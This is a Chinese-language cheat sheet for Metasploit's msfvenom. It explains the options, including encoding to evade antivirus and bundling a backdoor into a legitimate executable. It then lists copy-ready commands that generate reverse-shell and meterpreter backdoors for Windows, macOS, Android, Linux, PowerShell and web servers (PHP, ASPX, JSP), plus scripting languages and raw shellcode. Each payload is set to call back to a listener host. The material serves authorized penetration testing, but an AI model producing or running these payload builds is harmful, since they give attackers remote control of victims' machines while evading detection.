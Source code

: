 Kali中的 `msfvenom` 取代了msfpayload和msfencode，常用于生成后门木马

msfpayload是MSF攻击荷载生成器，用于生成shellcode和可执行代码。
msfencode是MSF编码器。

---

# 一 、msfvenom 常用参数

`-l`
列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all



`-p`
指定需要使用的payload(**攻击荷载**)。



`-f`
指定**输出格式**

Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；

Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js_be、js_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript；



`-e`
指定需要使用的encoder（编码器）**编码免杀**。

`-a`
指定payload的**目标架构**

选择架构平台:x86 | x64 | x86_64
**Platforms**:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe

`-o`
**保存**payload文件输出。

`-b`
设定**规避字符集**，比如: '\x00\xff'避免使用的字符

`-n`
为payload预先指定一个NOP**滑动长度**

`-s`
设定有效攻击荷载的**最大长度**生成payload的最大长度，就是文件大小。

`-i`
指定payload的**编码次数**

`-c`
指定一个**附加**的win32 shellcode**文件**

`-x`
指定一个自定义的可执行文件作为模板
例如：原先有个正常文件normal.exe 可以通过这个选项把后门**捆绑到**这个**程序**上面。

`-k`
保护模板程序的动作，注入的payload作为一个新的进程运行
例如：原先有个正常文件normal.exe 可以通过这个选项把后门**捆绑到这个程序**上面。

`-v`
指定一个**自定义的变量**，以确定输出格式

---

# 二、各平台生成payload命令

---

## Windows

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4444 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe
```

目标框架x86,平台windows,攻击载荷windows/meterpreter/reverse_tcp,监听主机192.168.70.3，端口4444，免杀编码x86/shikata_ga_nai，规避字符集'\x00\x0a\xff'，编码10次，输出exe文件，输出文件名叫payload.exe。



简易的：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.70.3 lport=4444 -f exe >shell.exe
```



---

## Mac

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=192.168.70.3 LPORT=4444 -f macho -o payload.macho
```



---

## Android

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567  -o payload.apk
```



---

## Powershell

```
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

---

## Linux

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4567 -f elf -o payload.elf
```



---

## php

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1  LPORT=8888  -f raw > shell.php
```



---

## aspx

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx
```



---

## JSP

```
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.jsp
```



---

## war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war
```



---

## nodejs

```
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.js
```



---

## python

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.py
```



---

## perl

```
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.1  LPORT=4567 -f raw -o payload.pl
```



---

## ruby

```
msfvenom -p ruby/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb
```



---

## lua

```
msfvenom -p cmd/unix/reverse_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua
```



---

## windows shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4567 -f c
```



---

## linux shellcode

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.70.3 LPORT=4567 -f c
```



---

## mac shellcode

```
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp  LHOST=192.168.1.1  LPORT=4567 -f c
```



---